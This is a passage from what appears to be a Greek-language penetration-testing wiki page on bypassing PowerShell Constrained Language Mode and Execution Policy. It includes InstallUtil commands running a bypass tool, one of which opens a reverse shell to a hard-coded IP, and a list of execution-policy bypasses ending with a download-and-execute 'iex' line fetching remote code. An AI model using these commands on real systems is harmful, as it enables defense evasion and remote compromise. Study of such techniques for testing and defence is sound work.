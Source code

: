 {{#ref}}
../active-directory-methodology/laps.md
{{#endref}}

## PS Constrained Language Mode

Το PowerShell [**Constrained Language Mode**](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/) **περιορίζει πολλές από τις δυνατότητες** που απαιτούνται για τη χρήση του PowerShell αποτελεσματικά, όπως η μπλοκάρισμα COM αντικειμένων, η επιτρεπόμενη χρήση μόνο εγκεκριμένων τύπων .NET, ροές εργασίας βασισμένες σε XAML, κλάσεις PowerShell και άλλα.

### **Έλεγχος**
```powershell
$ExecutionContext.SessionState.LanguageMode
#Values could be: FullLanguage or ConstrainedLanguage
```
### Παράκαμψη
```powershell
#Easy bypass
Powershell -version 2
```
Στα τρέχοντα Windows, αυτή η παράκαμψη δεν θα λειτουργήσει, αλλά μπορείτε να χρησιμοποιήσετε [**PSByPassCLM**](https://github.com/padovah4ck/PSByPassCLM).\
**Για να το μεταγλωττίσετε, μπορεί να χρειαστεί** **να** _**Προσθέσετε μια Αναφορά**_ -> _Περιήγηση_ -> _Περιήγηση_ -> προσθέστε `C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0\31bf3856ad364e35\System.Management.Automation.dll` και **να αλλάξετε το έργο σε .Net4.5**.

#### Άμεση παράκαμψη:
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```
#### Αντίστροφη θήκη:
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```
Μπορείτε να χρησιμοποιήσετε [**ReflectivePick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) ή [**SharpPick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) για να **εκτελέσετε κώδικα Powershell** σε οποιαδήποτε διαδικασία και να παρακάμψετε τη περιορισμένη λειτουργία. Για περισσότερες πληροφορίες, ελέγξτε: [https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode](https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode).

## Πολιτική Εκτέλεσης PS

Από προεπιλογή είναι ρυθμισμένη σε **restricted.** Οι κύριοι τρόποι για να παρακάμψετε αυτήν την πολιτική:
```powershell
1º Just copy and paste inside the interactive PS console
2º Read en Exec
Get-Content .runme.ps1 | PowerShell.exe -noprofile -
3º Read and Exec
Get-Content .runme.ps1 | Invoke-Expression
4º Use other execution policy
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
5º Change users execution policy
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
6º Change execution policy for this session
Set-ExecutionPolicy Bypass -Scope Process
7º Download and execute:
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"
8º Use command switch
```